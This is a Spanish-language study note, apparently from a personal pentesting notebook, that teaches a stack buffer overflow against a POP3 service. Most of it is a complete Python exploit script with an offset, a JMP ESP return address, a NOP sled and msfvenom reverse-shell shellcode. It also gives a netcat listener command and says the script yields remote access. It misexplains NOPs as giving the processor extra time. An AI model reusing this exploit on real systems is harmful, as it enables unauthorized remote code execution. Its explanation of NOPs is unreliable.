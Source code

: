 --- 
- Tags: #NOPs #RCE #shellcode 
----
# Explicación

Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.
Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. 

> Los **NOPS** no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.

Otra técnica que se suele utilizar es el **desplazamiento en la pila**, que implica modificar el registro ESP para reservar espacio adicional para el shellcode y permitir que se ejecute sin problemas. Por ejemplo, se puede utilizar la instrucción “**``sub esp, 0x10``**” para desplazar el registro ESP **16 bytes** hacia abajo en la pila y reservar espacio adicional para el shellcode.

# Explicación detallada

Si nosotros intentáramos ejecutar nuestro script mientras en otra consola estamos en escucha con ``nc -nlvp 443`` ya que ese fue el puerto que definimos en nuestro Payload del ``msfvenom``, veríamos que no se establece la conexión a la máquina víctima, por lo tanto para conseguir la conexión aplicaremos el uso de NOPS y de desplazamiento en la pila.

Además de todo esto, otra cosa que se puede hacer es a la hora de crear el Shellcode **controlar el comando que queramos ejecutar**, esto se hace con otro Payload, pero lo veremos en la siguiente sección.

------
## NOPs (``\x90``)

Para permitir que el programa **posea más tiempo para interpretar nuestro Shellcode malicioso** lo que haremos será **modificar nuestro script**, agregándole en la variable ``payload`` entra la suma de ``eip`` (ya que todo lo que siga después del **EIP** irá a la Pila) y ``shellcode`` los **NOPS** que se representan como ``\x90``. Podemos poner la cantidad que queramos, en mi caso le voy a colocar *32 NOPS*, que se escribiría tal que así ``b"\x90*32"``, en el script sería así.

![[BOF 31.png]]

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales. 
ip_address = "192.168.0.120"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4bcc6b)

shellcode = (b"\xdd\xc6\xbd\xb7\x06\x6c\xcb\xd9\x74\x24\xf4\x58\x2b\xc9"
b"\xb1\x52\x31\x68\x17\x83\xe8\xfc\x03\xdf\x15\x8e\x3e\xe3"
b"\xf2\xcc\xc1\x1b\x03\xb1\x48\xfe\x32\xf1\x2f\x8b\x65\xc1"
b"\x24\xd9\x89\xaa\x69\xc9\x1a\xde\xa5\xfe\xab\x55\x90\x31"
b"\x2b\xc5\xe0\x50\xaf\x14\x35\xb2\x8e\xd6\x48\xb3\xd7\x0b"
b"\xa0\xe1\x80\x40\x17\x15\xa4\x1d\xa4\x9e\xf6\xb0\xac\x43"
b"\x4e\xb2\x9d\xd2\xc4\xed\x3d\xd5\x09\x86\x77\xcd\x4e\xa3"
b"\xce\x66\xa4\x5f\xd1\xae\xf4\xa0\x7e\x8f\x38\x53\x7e\xc8"
b"\xff\x8c\xf5\x20\xfc\x31\x0e\xf7\x7e\xee\x9b\xe3\xd9\x65"
b"\x3b\xcf\xd8\xaa\xda\x84\xd7\x07\xa8\xc2\xfb\x96\x7d\x79"
b"\x07\x12\x80\xad\x81\x60\xa7\x69\xc9\x33\xc6\x28\xb7\x92"
b"\xf7\x2a\x18\x4a\x52\x21\xb5\x9f\xef\x68\xd2\x6c\xc2\x92"
b"\x22\xfb\x55\xe1\x10\xa4\xcd\x6d\x19\x2d\xc8\x6a\x5e\x04"
b"\xac\xe4\xa1\xa7\xcd\x2d\x66\xf3\x9d\x45\x4f\x7c\x76\x95"
b"\x70\xa9\xd9\xc5\xde\x02\x9a\xb5\x9e\xf2\x72\xdf\x10\x2c"
b"\x62\xe0\xfa\x45\x09\x1b\x6d\xaa\x66\x23\xaf\x42\x75\x23"
b"\x2e\x28\xf0\xc5\x5a\x5e\x55\x5e\xf3\xc7\xfc\x14\x62\x07"
b"\x2b\x51\xa4\x83\xd8\xa6\x6b\x64\x94\xb4\x1c\x84\xe3\xe6"
b"\x8b\x9b\xd9\x8e\x50\x09\x86\x4e\x1e\x32\x11\x19\x77\x84"
b"\x68\xcf\x65\xbf\xc2\xed\x77\x59\x2c\xb5\xa3\x9a\xb3\x34"
b"\x21\xa6\x97\x26\xff\x27\x9c\x12\xaf\x71\x4a\xcc\x09\x28"
b"\x3c\xa6\xc3\x87\x96\x2e\x95\xeb\x28\x28\x9a\x21\xdf\xd4"
b"\x2b\x9c\xa6\xeb\x84\x48\x2f\x94\xf8\xe8\xd0\x4f\xb9\x09"
b"\x33\x45\xb4\xa1\xea\x0c\x75\xac\x0c\xfb\xba\xc9\x8e\x09"
b"\x43\x2e\x8e\x78\x46\x6a\x08\x91\x3a\xe3\xfd\x95\xe9\x04"
b"\xd4")

payload = before_eip + eip + b"\x90"*32 + shellcode 


def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    banner = s.recv(1024)

    s.send(b"USER test" + b'\r\n')
    response = s.recv(1024) 
    s.send(b"PASS " + payload + b'\r\n')
    s.close()

if __name__ == '__main__':

    exploit()
```

De esta forma si nos ponemos en escucha y ejecutamos el script conseguiremos acceso a la máquina.

![[BOF 32.png]]
## Desplazamiento en la Pila (``\x83\xEC\x10``)

El próximo método se efectúa aplicando el **Opcode** ``sub esp,0x10``, por lo tanto ejecutaremos la herramienta ``/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`` y colocaremos ``sub esp,0x10``

![[BOF 33.png]]

Esta instrucción lo que hace es **decrementar** el valor del puntero de pila *16 Bytes*, por lo tanto la copiaremos y la pegaremos en la variable ``payload`` entre la suma del ``eip`` y el ``shellcode``

![[BOF 34.png]]

Y si ahora ejecutamos el script mientras estamos en escucha por el *puerto 443* ganaremos acceso a la máquina.

![[BOF 32.png]]